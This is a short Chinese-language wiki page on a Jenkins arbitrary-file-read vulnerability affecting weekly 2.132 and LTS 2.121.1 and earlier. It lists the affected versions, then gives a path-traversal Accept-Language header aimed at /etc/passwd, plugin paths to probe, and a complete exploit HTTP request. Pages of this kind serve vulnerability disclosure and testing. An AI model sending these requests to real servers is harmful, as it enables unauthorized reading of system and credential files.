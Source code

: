 <languages   />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
影響版本
--------

Jenkins weekly 2.132 以及更早的版本 Jenkins LTS 2.121.1 以及更早的版本

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
可以讀取Windows系統服務器中的任意文件，且在特定而條件下也可以讀取Linux系統服務器中的文件.

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞利用
--------

需要已經開啟了匿名用戶讀取權限，在請求頭中添加：

</div>
    Accept-Language: /../../../../../../../../etc/passwd

<div lang="chinese" dir="ltr" class="mw-content-ltr">
處理請求中的包含路徑，比如/plugin/xxxx，可以嘗試:

</div>
    /plugin/jquery-detached/.xml
    /plugin/jquery-detached/.key
    /plugin/credentials/.ini

Windows:

    GET /plugin/credentials/.ini HTTP/1.1
    Host: x.x.x.x:8080
    Accept: text/javascript, text/html, application/xml, text/xml, */*
    X-Prototype-Version: 1.7
    DNT: 1
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.106 Safari/537.36
    Origin: http://x.x.x.x:8080
    Referer: http://x.x.x.x:8080/
    Accept-Encoding: gzip, deflate
    Accept-Language: /../../../../../../../../etc/passwd
    Cookie: JSESSIONID.450017e3=x6kdpnkcgllh18wvlaohsqq8z; screenResolution=1920x1080; JSESSIONID.ccf0cd96=node09crp5bs5eglyrv874no3w48l0.node0; JSESSIONID.6551b177=14vcq2nsop6bw1u8urepj65kwv; td_cookie=1608956971
    Connection: close
